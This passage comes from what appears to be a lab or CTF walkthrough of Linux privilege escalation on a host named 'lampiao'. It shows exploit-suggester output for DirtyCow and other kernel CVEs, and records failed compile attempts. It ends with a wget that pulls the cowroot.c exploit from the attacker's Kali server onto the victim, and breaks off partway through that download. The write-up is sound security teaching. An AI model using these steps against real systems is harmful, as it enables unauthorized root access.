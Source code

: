 ```
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

along with some exploit suggestions:

```
╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2
  [1] af_packet
      CVE-2016-8655
      Source: http://www.exploit-db.com/exploits/40871
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] get_rekt
      CVE-2017-16695
      Source: http://www.exploit-db.com/exploits/45010
```

Tried all 3, the first one compiled but didn't work; the second's exploited program (xorg) was not present. And the third did not compile due to lack of bpf related C header files:

```
gcc 45010-kernel.c -o cve-2017-16995
45010-kernel.c:49:23: fatal error: linux/bpf.h: No such file or directory
 #include <linux/bpf.h>
```

DirtyCow is usually reliable once its flagged. I try the exploit for DirtyCow in [this GitHub gist](https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679)...

I serve it over HTTP from my Kali machine since the victim host cannot talk to the Internet.

> Note: before downloading it in the victim host, I modify the code to use the x86 instead of the x64 payload


Downloading it on the victim:

```
www-data@lampiao:/var/www/html/exploit$ wget http://192.168.45.201/cowroot.c
wget http://192.168.45.201/cowroot.c
--2024-04-01 00:49:01--  http://192.168.45.201/cowroot.c
...
```
